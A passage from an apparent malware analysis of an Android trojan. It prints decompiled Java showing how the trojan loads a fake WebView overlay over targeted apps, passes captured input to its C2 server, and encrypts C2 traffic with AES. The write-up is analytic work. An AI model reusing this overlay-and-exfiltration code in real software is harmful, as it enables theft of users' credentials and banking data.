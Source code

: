 If the running app is set to have an overlay injection, it'll initiate it. Webview is used to view the fake app interface to the user and reports stolen data back to the C2.

The overlay data is downloaded and decrypted with the hardcoded key.

```java
    protected void onStart() {
        super.onStart();
        this.context = this;
        OverlayInjectResource packageInjection = UtilGlobal.getPackageInjection(this, UtilGlobal.SettingsRead(this, Constants.appInjectTag));
        this.resource = packageInjection;
        this.hideStop = true;
        if (this.stopActivity || packageInjection == null) {
            return;
        }
        try {
            WebView webView = new WebView(this);
            this.wv = webView;
            webView.getSettings().setJavaScriptEnabled(true);
            this.wv.setScrollBarStyle(0);
            this.wv.setWebViewClient(new MyWebViewClient());
            this.wv.setWebChromeClient(new MyWebChromeClient());
            this.wv.addJavascriptInterface(new WebAppInterface(this), "Android");
            this.wv.loadDataWithBaseURL(null, this.resource.getPageResource(this), "text/html", "UTF-8", null);
            setContentView(this.wv);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
```

```java
        public void returnResult(String str) {
            new ApiOperationController().sendRequest(this.parent, new ApiInjectionSuccessRequestPayload("inj_success", new ApiInjectionSuccess(UtilGlobal.SettingsRead(this.parent, Constants.appInjectTag), str)), true);
            OverlayInjectActivity overlayInjectActivity = this.parent;
            UtilGlobal.flagPackageInjectionIgnored(overlayInjectActivity, overlayInjectActivity.resource.id);
            this.parent.finish();
        }
```

### Network Communications

A new AES key is obtained after "verifying" with the C2 which is used for further traffic encryption/decryption.

```java
    public void sendRequest(Context context, ApiMetricsPayloadGeneric apiMetricsPayloadGeneric, boolean z) {
        UtilGlobal.Log("sendRequest", ">>> " + apiMetricsPayloadGeneric.toJson());
        this.contextWeakReference = new WeakReference<>(context);
        byte[] verificationBytes = UtilGlobal.getVerificationBytes(context);
        if (verificationBytes == null || verificationBytes.length != 16) {
            return;
        }
        byte[] androidIDBytes = UtilGlobal.getAndroidIDBytes(context);
        Pair<byte[], byte[]> encryptMessage = UtilEncryption.encryptMessage(apiMetricsPayloadGeneric.toJson().getBytes(StandardCharsets.UTF_8), verificationBytes);
        if (encryptMessage == null || encryptMessage.second == null || encryptMessage.first == null) {
            return;
        }
```